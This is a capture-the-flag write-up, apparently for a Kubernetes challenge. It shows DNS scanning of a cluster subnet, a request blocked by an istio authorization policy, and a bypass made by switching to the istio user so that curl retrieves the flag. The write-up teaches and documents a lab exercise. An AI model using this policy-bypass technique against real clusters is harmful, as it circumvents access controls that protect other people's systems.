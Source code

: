 It looks like there's an `istio` sidecar container running on 10.10.224.159:
```
root@wiz-k8s-lan-party:~# dnscan -subnet 10.100.0.0/16
57323 / 65536 [------------------------------------------------------------------------------------------------------------------------------------------------------------->______________________] 87.47% 982 p/s10.100.224.159 istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
root@wiz-k8s-lan-party:~# dig istio-protected-pod-service.k8s-lan-party.svc.cluster.local

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> istio-protected-pod-service.k8s-lan-party.svc.cluster.local
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14627
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; COOKIE: 05d55b2f90734578 (echoed)
;; QUESTION SECTION:
;istio-protected-pod-service.k8s-lan-party.svc.cluster.local. IN        A

;; ANSWER SECTION:
istio-protected-pod-service.k8s-lan-party.svc.cluster.local. 30 IN A 10.100.224.159

;; Query time: 0 msec
;; SERVER: 10.100.166.132#53(10.100.166.132) (UDP)
;; WHEN: Wed Jul 17 22:39:17 UTC 2024
;; MSG SIZE  rcvd: 175
```

`istio` is a "Service Mesh", which allows different containers to talk to each other using a simple sidecar proxy configuration:
![[Images/Screenshot 2024-07-18 at 9.09.55 AM.png]]

This allows simple rulesets that govern communication between pods to be enforced.s

Curling that pod, we get an error that I'm assuming means the `AuthorizationPolicy` listed above triggered:
```
root@wiz-k8s-lan-party:~# curl -X GET 10.100.224.159
RBAC: access denied
```

I noticed that the policy only restricts GETs and POSTs, so I tried all the other possible HTTP verbs, but no dice. I poked around for a bit, and discovered in the `/etc/passwd` that there is an `istio` user. I switched to that user, and was able to retrieve the flag:
```
root@wiz-k8s-lan-party:~# su istio
$ curl 10.100.224.159 
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```
